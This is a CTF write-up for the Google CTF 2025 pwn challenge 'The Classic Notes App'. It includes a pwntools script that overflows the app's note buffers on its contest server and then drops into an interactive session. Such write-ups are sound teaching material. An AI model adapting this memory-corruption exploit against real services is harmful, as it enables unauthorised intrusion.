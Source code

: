 ```yaml
---
title: Google CTF 2025 Writeup | PWN - The Classic Notes App
slug: googlectf25-the-classic-notes-app
author: Utkarsh M
date: '2025-07-16'
description: "Writeup and solution for the Google CTF 2025 - The Classic Notes App challenge."
categories:
  - CTFs
tags:
  - write up
  - web
  - ctf
  - google
  - googlectf
  - reverse engineering
  - pwn
  - re
  - vm

---
```


### Challenge Details

> RC's notebook server. RC does not care about memory safety because *** protects him!<br>
> Author: RC, roguebantha


Connection string: `the-classic-notes-app.2025.ctfcompetition.com 1337`

files: `ctf.c, Dockerfile, nsjail.cfg, qemu-aarch64`

-------------------

## Application

It's a simple note-taking application built for the aarch64 architecture running through QEMU on the challenge server.

You can interact with it using commands like:

```sh
Give me your command:
R 1    
Note at 1: World!
Give me your command:
C 3
Give me your command:
W 2 0 3ABC
Give me your command:
R 2
Note at 2: ABC�
Give me your command:
```

## Solving the challenges

The following image illustrates the solution process for the challenge in detail.

![](/assets/img/ctf/googlectf25/the-classic-notes-app.png)

## solution

```py
import pwn

while True:
    try:
        t = pwn.remote('the-classic-notes-app.2025.ctfcompetition.com', 1337)
        t.timeout = None
        t.recvuntil(b'Give me your command:\n')
        t.sendline(b'W 1 32 2' + b'\xa0\x02')
        k = t.recvuntil(b'Give me your command:\n')
        t.sendline(b'W 0 0 4' + b'exit')
        t.recvuntil(b'Give me your command:\n')
        t.sendline(b'W 0 50 100'+ b'\xAA'*100)
        print(k)
        t.interactive()
        break
    except EOFError:
        try:
            t.close()
        except Exception:
            pass
        continue
```

[Github Gist ](https://gist.github.com/Utkar5hM/6606ed6bbde5e3729a13b7f8a778c2e6)

## Obtaining the flag

![](/assets/img/ctf/googlectf25/the-classic-notes-app-2.png)